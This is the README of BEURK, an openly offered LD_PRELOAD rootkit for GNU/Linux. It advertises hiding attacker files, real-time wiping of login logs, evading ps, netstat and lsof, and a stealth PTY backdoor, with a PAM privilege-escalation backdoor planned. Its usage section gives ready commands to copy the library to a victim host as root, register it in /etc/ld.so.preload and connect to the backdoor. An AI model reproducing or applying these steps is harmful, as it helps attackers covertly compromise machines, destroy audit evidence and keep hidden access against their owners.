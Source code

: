 BEURK
=====
[Getting Started] | [API Documentation] | [Contributing] | [TODO List]

[![Travis Build][Travis badge]](https://travis-ci.org/unix-thrust/beurk)
[![Ready Issues][Waffle badge]](https://waffle.io/unix-thrust/beurk)
[![Coverage Status][Cover badge]](https://coveralls.io/r/unix-thrust/beurk)
[![Jenkins Build][Jenkins badge]](http://ci.zgun-family.eu/job/BEURK/)
[![Join the chat at https://gitter.im/unix-thrust/beurk](https://badges.gitter.im/Join%20Chat.svg)](https://gitter.im/unix-thrust/beurk)

**BEURK** is an userland [preload rootkit] for GNU/Linux, heavily focused
around anti-debugging and anti-detection.

> _**S'ils savaient, ils vomiraient ...**_
>
> *- The core team -*


-------------------------------------------------------------------------------

### Features ###
- Hide attacker files and directories
- Realtime log cleanup (on [utmp/wtmp])
- Anti process and login detection
- Bypass unhide, lsof, ps, ldd, netstat analysis
- Furtive PTY backdoor client

### Upcoming features ###
- [ptrace(2)] hooking for anti-debugging
- [libpcap] hooking undermines local sniffers
- PAM backdoor for *local privilege escalation*

### Usage ###
* **Compile**
```sh
    git clone https://github.com/unix-thrust/beurk.git
    cd beurk
    make
```
* **Install**
```sh
    scp libselinux.so root@victim.com:/lib/
    ssh root@victim.com 'echo /lib/libselinux.so >> /etc/ld.so.preload'
```
* **Enjoy !**
```sh
    ./client.py victim_ip:port # connect with furtive backdoor
```

### Dependencies ###

The following packages are not required in order to build BEURK at the moment:

* **libpcap** - to avoid local sniffing
* **libpam** - for local PAM backdoor
* **libssl** - for encrypted backdoor connection

**Example on debian:**
```sh
    apt-get install libpcap-dev libpam-dev libssl-dev
```

-------------------------------------------------------------------------------

[![Waffle metrics][Waffle metrics]](https://waffle.io/unix-thrust/beurk/metrics)

* _**BEURK v 1.0 is in active development,**_
_**please checkout current [development branch].**_

> NOTE: **BEURK** is a recursive acronym for
> **B**EURK **E**xperimental **U**nix **R**oot **K**it

-------------------------------------------------------------------------------

[Getting Started]: https://github.com/unix-thrust/beurk/wiki
[API Documentation]: https://github.com/unix-thrust/beurk/wiki/API-Documentation
[TODO List]: https://github.com/unix-thrust/beurk/blob/master/TODO.md
[Contributing]: https://github.com/unix-thrust/beurk/blob/master/CONTRIBUTING.md

[Travis badge]: https://travis-ci.org/unix-thrust/beurk.svg?branch=master
[Waffle badge]: https://badge.waffle.io/unix-thrust/beurk.svg?label=Ready&title=Ready-Issues
[Cover badge]: https://img.shields.io/coveralls/unix-thrust/beurk.svg
[Jenkins badge]: http://ci.zgun-family.eu/job/BEURK/badge/icon
[Waffle metrics]: https://graphs.waffle.io/unix-thrust/beurk/throughput.svg

[preload rootkit]: http://volatility-labs.blogspot.fr/2012/09/movp-24-analyzing-jynx-rootkit-and.html
[utmp/wtmp]: http://man7.org/linux/man-pages/man5/utmp.5.html
[ptrace(2)]: http://man7.org/linux/man-pages/man2/ptrace.2.html
[libpcap]: http://en.wikipedia.org/wiki/Pcap#libpcap
[development branch]: https://github.com/unix-thrust/beurk/tree/dev
